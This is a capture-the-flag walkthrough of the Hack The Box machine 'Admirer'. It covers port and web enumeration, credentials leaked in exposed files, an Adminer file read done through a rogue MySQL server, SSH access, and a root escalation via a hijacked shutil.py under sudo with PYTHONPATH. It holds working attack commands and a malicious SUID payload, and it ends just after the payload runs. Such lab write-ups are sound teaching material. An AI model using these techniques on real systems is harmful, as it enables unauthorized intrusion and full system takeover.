






# Admirer by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Admirer     | 10.10.10.187  | Linux              | 20       | 3.4      | 10263       | 9602        | Yes       | 2020-05-02     | 2020-09-26     | No         | 248          |

## Summary
1. Scan ports -> 21,22,80
2. Enumerate port 80 -> `credentials.txt` with `ftpuser:%n?4Wz}R$tTF7`
3. Enumerate port 21 -> `html.tar.gz`
4. Read backup files -> `/utility-scripts/db_admin.php` not anymore on server
5. Find `/utility-scripts/adminer.php` -> `Adminer Read vulnerability`
6. Create local database and connect to it from victim -> `File Reading` via `SQL Commands`
7. Read updated `index.php` -> `waldo:&<h5b~yK3F#{PaPB&dA}{H>`
8. ssh into admirer.htb with creds -> shell as `waldo` (`user flag`)
9. `sudo -l` -> `SETENV on /opt/scripts/admins_tasks.sh`
10. Read `/opt/scripts/backup.py` -> Vulnerable to python path hijacking
11. Create malicious `shutil.py` and hijack python path -> RCE as root
12. Set suid to `/bin/bash` and `bash -p` -> Shell as `root` (`root flag`)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.187
PING 10.10.10.187 (10.10.10.187) 56(84) bytes of data.
64 bytes from 10.10.10.187: icmp_seq=1 ttl=63 time=42.2 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.187 -v -Pn -n -oG Enum/allPorts
```

With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.187 

	[*] Open ports:  21,22,80 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p21,22,80 -sVC -n 10.10.10.187 -oN Enum/targeted
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Admirer
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 21  | ftp      |  vsftpd 3.0.3 | - |
| 22  | ssh      |  OpenSSH 7.4p1 | Debian | 
| 80  | http     |  Apache  2.4.25 | `/admin-dir` disallowed | 

### Port 80 Enumeration
#### Technology scan
```shell
❯ whatweb 10.10.10.187
http://10.10.10.187 [200 OK] Apache[2.4.25], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.187], JQuery, Script, Title[Admirer]
```
Toguether with `wappalyzer`:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Apace | 2.4.25 | Debian |

#### Web content fuzzing
First, we will scan the web content without any extensions:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hh 6051 --hc 404 "http://10.10.10.187/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.187/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000291:   301        9 L      28 W       313 Ch      "assets"          
000000016:   301        9 L      28 W       313 Ch      "images"          
000095524:   403        9 L      28 W       277 Ch      "server-status"   
```
We didn't find any useful information, but from the nmap scan, we can try to enumerate `/admin-dir`:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hh 277 --hc 404 "http://10.10.10.187/admin-dir/FUZZ.txt"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.187/admin-dir/FUZZ.txt
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000227:   200        29 L     39 W       350 Ch      "contacts"   
000166817:   200        11 L     13 W       136 Ch      "credentials"
```

#### Manual enumeration
In the index page we are not able to find any useful information. But in the pages `/admin-dir/contacts.txt` and `/admin-dir/credentials.txt` we can find the following information:
- `/admin-dir/contacts.txt`:
```txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```
- `/admin-dir/credentials.txt`:
```txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
We discovered the credentials `w.cooper@admirer.htb:fgJr6q#S\W:$P`, `ftpuser:%n?4Wz}R$tTF7` and `admin:w0rdpr3ss01!`.


### Port 21 enumeration
As we can see, the file `credentials.txt` provided us some credentials. As the page does not have `/wp-admin` available nor access to the internal mail account, we can try to login to the FTP server with `ftpuser:%n?4Wz}R$tTF7`:
```shell
❯ ftp 10.10.10.187 21
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:r3van): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
If we download the files using `get` command, we can notice:
- `Results/dump.sql`:
```sql
-- MySQL dump 10.16  Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: admirerdb
-- ------------------------------------------------------
-- Server version	10.1.41-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `items`
--

DROP TABLE IF EXISTS `items`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `items` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `thumb_path` text NOT NULL,
  `image_path` text NOT NULL,
  `title` text NOT NULL,
  `text` text,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=13 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `items`
--

LOCK TABLES `items` WRITE;
/*!40000 ALTER TABLE `items` DISABLE KEYS */;
INSERT INTO `items` VALUES (1,'images/thumbs/thmb_art01.jpg','images/fulls/art01.jpg','Visual Art','A pure showcase of skill and emotion.'),(2,'images/thumbs/thmb_eng02.jpg','images/fulls/eng02.jpg','The Beauty and the Beast','Besides the technology, there is also the eye candy...'),(3,'images/thumbs/thmb_nat01.jpg','images/fulls/nat01.jpg','The uncontrollable lightshow','When the sun decides to play at night.'),(4,'images/thumbs/thmb_arch02.jpg','images/fulls/arch02.jpg','Nearly Monochromatic','One could simply spend hours looking at this indoor square.'),(5,'images/thumbs/thmb_mind01.jpg','images/fulls/mind01.jpg','Way ahead of his time','You probably still use some of his inventions... 500yrs later.'),(6,'images/thumbs/thmb_mus02.jpg','images/fulls/mus02.jpg','The outcomes of complexity','Seriously, listen to Dust in Interstellar\'s OST. Thank me later.'),(7,'images/thumbs/thmb_arch01.jpg','images/fulls/arch01.jpg','Back to basics','And centuries later, we want to go back and live in nature... Sort of.'),(8,'images/thumbs/thmb_mind02.jpg','images/fulls/mind02.jpg','We need him back','He might have been a loner who allegedly slept with a pigeon, but that brain...'),(9,'images/thumbs/thmb_eng01.jpg','images/fulls/eng01.jpg','In the name of Science','Some theories need to be proven.'),(10,'images/thumbs/thmb_mus01.jpg','images/fulls/mus01.jpg','Equal Temperament','Because without him, music would not exist (as we know it today).');
/*!40000 ALTER TABLE `items` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2019-12-02 20:24:15
```
- `Results/html/w4ld0s_s3cr3t_d1r/credentials.txt`: We discover another credential `waldo.11:Ezy]m27}OREc$`.
```txt
[Bank Account]
waldo.11
Ezy]m27}OREc$

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
- `Results/html/index.php`: Within the code we find the credential `waldo:]F7jLHw:*G>UPrTo}~A"d6b`.
```php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: ../index.php
       │ Size: 4.6 KB
───────┼───────────────────────────────────────────────────────────────────────────
  31   │                     <div id="main">         
  32   │                      <?php
  33   │                         $servername = "localhost";
  34   │                         $username = "waldo";
  35   │                         $password = "]F7jLHw:*G>UPrTo}~A\"d6b";
  36   │                         $dbname = "admirerdb";
```
- `Results/html/utility-scripts/db-admin.php`: We discover the credential `waldo:Wh3r3_1s_w4ld0?`.
```php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: db_admin.php
       │ Size: 401 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   $servername = "localhost";
   3   │   $username = "waldo";
   4   │   $password = "Wh3r3_1s_w4ld0?";
   5   │ 
   6   │   // Create connection
   7   │   $conn = new mysqli($servername, $username, $password);
   8   │ 
   9   │   // Check connection
  10   │   if ($conn->connect_error) {
  11   │       die("Connection failed: " . $conn->connect_error);
  12   │   }
  13   │   echo "Connected successfully";
  14   │ 
  15   │ 
  16   │   // TODO: Finish implementing this or find a better open source alternative
  17   │ ?>
───────┴───────────────────────────────────────────────────────────────────────────
```
Also, if we enumerate the folder `html/utility-scripts` we find:
```shell
❯ ls Results/html/utility-scripts
 admin_tasks.php   db_admin.php   info.php   phptest.php
```
And if we access to to `admirer.htb/utility-scripts/phptest.php`:
```shell
❯ cat Results/html/utility-scripts/phptest.php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/html/utility-scripts/phptest.php
       │ Size: 53 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   echo("Just a test to see if PHP works.");
   3   │ ?>
───────┴───────────────────────────────────────────────────────────────────────────
❯ curl http://admirer.htb/utility-scripts/phptest.php -s
Just a test to see if PHP works.
```
So we can affirm that, at least, those php scripts are included in the website. But when we try to access to `admirer.htb/utility-scripts/db_admin.php` we get the following error:
```shell
❯ curl http://admirer.htb/utility-scripts/db_admin.php -s
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at admirer.htb Port 80</address>
</body></html>
```
Meaning this utility has been changed. Now that we know the page uses php at `/utility-scripts`, we can fuzz it:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --hh 277 --hc 404 "http://10.10.10.187/utility-scripts/FUZZ.php"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.187/utility-scripts/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000085:   200        964 L    4976 W     84024 Ch    "info"            
000136205:   200        0 L      8 W        32 Ch       "phptest"   
```
As shown in the output, we couldn't find `db_admin.php` nor `admin_tasks.php` in the website.

### Discovering adminer.php
#### CEWL Wordlist Generator
We seem to have reached an end point, as the file `db_admin.php` is not found, and we don't find any trace of it. The last resorce we have is creating our own dictionaries with `cewl`, based on `info.php` or `index.php`:
```shell
❯ cewl "http://admirer.htb/utility-scripts/info.php" -w $(pwd)/Exploits/php-names.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
❯ wc Exploits/php-names.txt
1271 1271 9567 Exploits/php-names.txt
```
This process created a wordlist with 1271 words. Let's try it with `wfuzz`:
```shell
❯ wfuzz -c -w $(pwd)/Exploits/php-names.txt -t 200 --hh 277 --hc 404 "http://10.10.10.187/utility-scripts/FUZZ.php"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.187/utility-scripts/FUZZ.php
Total requests: 1271

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000072:   200        964 L    4976 W     84030 Ch    "info"            
```
The process finished unsuccessfully, as we couldn't find `db_admin.php` in the website.

#### Manual enumeration
After extensive reading of the `info.php` page, we discovered relevant disabled functions as `popen`, `putenv`, `exec` and `system`, but `shell_exec` is still available :). Also, if we take a look at the `Cookie` header in responses:

We can see that it mentions something called `adminer` and not `admirer`. As `adminer` contains the word admin, we can try accessing to `adminer.php`:
```shell
❯ curl http://admirer.htb/utility-scripts/adminer.php -i -s | grep 200
HTTP/1.1 200 OK
```
We have access to that page, and if we open it on a browser:

We can see a login, and the version of `Adminer`: `4.6.2`
```shell
❯ searchsploit adminer
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Adminer 4.3.1 - Server-Side Request Forgery      | php/webapps/43593.txt
------------------------------------------------- ---------------------------------
```
As there doesn't seem to be any vulnerabilities useful for this version, we can try accessing with the credentials gathered until now, which results in failure. Still, if we google for `Adminer 4.6.2 exploits` other than `exploitdb` ones, we find the [CVE-2021-43008](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43008). This exploit allows an attacker to read files on the victim machine via a connection to it's own mysql server. 

## LFI via adminer read
We can try to exploit this vulnerability by setting a `admirerdb` database on our machine:
```shell
❯ sudo mysql -u root
MariaDB [(none)]> create database pwnd;
Query OK, 1 row affected (0.000 sec)
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pwnd               |
| sys                |
| test               |
+--------------------+
6 rows in set (0.001 sec)
MariaDB [(none)]> use pwnd
Database changed
MariaDB [pwnd]> create user 'revan'@'10.10.10.187' identified by '1234';
Query OK, 0 rows affected (0.001 sec)

MariaDB [pwnd]> grant all on pwnd.* to 'revan'@'10.10.10.187';
Query OK, 0 rows affected (0.001 sec)

MariaDB [pwnd]> grant all on honeypot.* to 'revan'@'10.10.10.187';
Query OK, 0 rows affected (0.100 sec)
```
Up to this point we created a new database and a user with all the privileges on it:`'revan'@'10.10.10.187':1234`. Now, we can connect to the database with:


Obtaining the following response:


Now, following the exploit, we can use the `SQL Console` to create an empty table:
```sql
create table honeypot(output varchar(1024));
```
Now, notice that the commands ran in the `SQL Console` are sent from the victim to our machine, meaning we could try to read files as:
```sql
load data local infile "/etc/passwd" into table pwnd.honeypot;
```
If we run this command, the response we receive is:


From this output, we can guess that the file `/etc/passwd` cannot be accessed by the user hosting the server. So we can try to access files we know it can access, for example, the `.php` ones, as `index.php`:
```sql
load data local infile "/var/www/html/index.php" into table pwnd.honeypot; 
```

Now, if we look at the content of `honeypot` table:
```sql
MariaDB [pwnd]> select * from honeypot;
+-----------------------------------------------------------------------------------------+
| output                                                                                  |
+-----------------------------------------------------------------------------------------+
| <!DOCTYPE HTML>                                                                         |
| <!--                                                                                    |
|                                                                                         |
|                                                                                         |
|                                                                                         |
| -->                                                                                     |
| <html>                                                                                  |
|                                                                                         |
|                                                                                         |
|                         $servername = "localhost";                                      |
|                         $username = "waldo";                                            |
|                         $password = "&<h5b~yK3F#{PaPB&dA}{H>";                          |
|                         $dbname = "admirerdb";                                          |
|                                                                                         |
|                         // Create connection                                            |
|                         $conn = new mysqli($servername, $username, $password, $dbname); |
|                         // Check connection                                             |
|                         if ($conn->connect_error) {                                     |
|                             die("Connection failed: " . $conn->connect_error);          |
|                         }                                                               |
|                                                                                         |
|                         $sql = "SELECT * FROM items";                                   |
|                         $result = $conn->query($sql);                                   |
|                                                                                         |
|                         if ($result->num_rows > 0) {                                    |
|                             // output data of each row                                  |
|                             while($row = $result->fetch_assoc()) {                      |
|                                 echo "<article class='thumb'> ";                        |
|                             }                                                           |
|                         } else {                                                        |
|                             echo "0 results";                                           |
|                         }                                                               |
|                         $conn->close();                                                 |
|                     ?>                                                                  |
|                                                                                         |
|                                                                                         |
| </html>                                                                                 |
+-----------------------------------------------------------------------------------------+
123 rows in set (0.050 sec)
```
From where we obtain another credential: `waldo:&<h5b~yK3F#{PaPB&dA}{H>`. Now we could try to connect to the machines database, but from the `nmap scan` we can see that the port 3306 is closed. So the only thing we can do is try password reutilization on ssh:
```shell
❯ ssh waldo@10.10.10.187
The authenticity of host '10.10.10.187 (10.10.10.187)' can't be established.
ED25519 key fingerprint is SHA256:MfZJmYPldPPosZMdqhpjGPkT2fGNUn2vrEielbbFz/I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.187' (ED25519) to the list of known hosts.
waldo@10.10.10.187's password: # &<h5b~yK3F#{PaPB&dA}{H>
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$ hostname -I
10.10.10.187 dead:beef::250:56ff:feb9:2294  
```
We obtained a user shell as `waldo` on the victim machine.

## Privilege escalation
### Initial enumeration
For privesc, we will first check the available permissions that `waldo` has as `sudoer`:
```shell
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
waldo@admirer:~$ sudo su
Sorry, user waldo is not allowed to execute '/bin/su' as root on admirer.htb.
waldo@admirer:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
We enumerated the file `/opt/scripts/admin_tasks.sh`:
```shell
waldo@admirer:~$ ls -la /opt/scripts/admin_tasks.sh 
-rwxr-xr-x 1 root admins 2613 Dec  2  2019 /opt/scripts/admin_tasks.sh
waldo@admirer:~$ groups
waldo admins
```
As waldo is part of the `admins` group, we can read and execute the script, and during it's execution, we can use `SETENV` as root. The source code of the script is:
```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;


        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```
If we read carefully the source code, we can see how this piece of code creates backups of `/etc/passwd` and `/etc/shadow` at `/var/backups/`, but they are well securized. Also, while performing web backup, it is calling a script called `/opt/scripts/backup.py`:
```shell
waldo@admirer:~$ ls /opt/scripts/backup.py -la
-rwxr----- 1 root admins 198 Dec  2  2019 /opt/scripts/backup.py
```
As part of the `admins` group, we can only read the file's content:
```py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
We enumerate the path `/srv/ftp/html` but waldo is not allowed to access to it.

### Python library hijacking
On the previous python code, notice it is importing `make_archive` from `shutil` library. This library is looked up in the python path, which we can see with:
```shell
waldo@admirer:/home$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
waldo@admirer:/home$ ls /usr/lib/python3.5/shutil.py  -la
-rw-r--r-- 1 root root 40048 Sep 27  2018 /usr/lib/python3.5/shutil.py
```
We now know that the library `shutil.py` is at the path `/usr/lib/python3.5/`, but is not writtable by waldo. Instead, we will try to add another folder to `sys.path`, in order to hijack it:
```shell
waldo@admirer:/home$ export PYTHONPATH="/tmp"
waldo@admirer:/home$ python3 -c 'import sys; print(sys.path)'
['', '/tmp', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
```
Now, when python looks for shutil, it will look first at `/tmp` and then the rest of the original folders. But this variable export is just for waldo user. In order to set this path for root we can use:
- New `shutil.py` script:
```py
import os

def make_archive(a,b,c):
	os.system("chmod +s /bin/bash")
	print("[+] System successfuly pwnd!")
```
- Malicious execution:
```shell
waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
[+] System successfuly pwnd!
waldo@admirer:/tmp$ ls -la /bin/bash
